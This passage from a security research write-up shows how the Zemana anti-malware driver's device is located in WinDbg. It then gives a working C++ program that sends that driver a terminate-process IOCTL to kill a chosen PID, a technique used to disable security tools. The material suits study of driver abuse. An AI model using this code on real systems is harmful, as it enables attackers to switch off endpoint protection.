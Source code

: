 According to MSDN, `hDevice` is a handle to the device on which the operation is to be performed. The device is typically a volume, directory, file or stream. To retrieve a device hadnle, use the CreateFile function. First thing we can try to do this is to look for named pipes in winDBG via the `!handle` command.

![[Pasted image 20241111162940.png]]

We can see the SymbolicLink for `ZemanaAntiMalware`. We can get more information about it with `!object <handle address>`.

![[Pasted image 20241111162943.png]]

Since the target string is `\Device\ZemanaAntiMalware`, the created file should have the named pipe of `\\.\ZemanaAntiMalware`.

The following script built and ran with administrative privilege. Furthermore, the PID of the opened notepad is included in the script and make sure that Terminator has been successfully deployed into the target machine.

```cpp
#include <Windows.h>
#include <stdio.h>


const LONGLONG IOCTL_TERMINATE_PROCESS = 0x80002048;
const int PID_TO_TERMINATE = 3524; // Hardcoded PID ( change each time )

int main(void)
{
    HANDLE hDevice;
    DWORD bytesReturned;
    char buffer[100];

    // Open a handle to the device through the symbolic link
    hDevice = CreateFile(L"\\\\.\\ZemanaAntiMalware",
        GENERIC_READ | GENERIC_WRITE,
        0,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (hDevice == INVALID_HANDLE_VALUE)
    {
        printf("Failed to open handle to device. Error: %d\n", GetLastError());
        return 1;
    }

    // Send control code IOCTL_TERMINATE_PROCESS to the driver
    DWORD input[2] = { PID_TO_TERMINATE, TRUE };

    if (!DeviceIoControl(hDevice, IOCTL_TERMINATE_PROCESS,&input, sizeof(input), NULL, 0, &bytesReturned, NULL))
    {
        printf("Failed to Terminate PID %d via control code. Error: %d\n", PID_TO_TERMINATE, GetLastError());
    }
    else
    {
        printf("Successfully terminated PID %d sent control code.\n", PID_TO_TERMINATE);
    }

    // Close the handle
    CloseHandle(hDevice);

```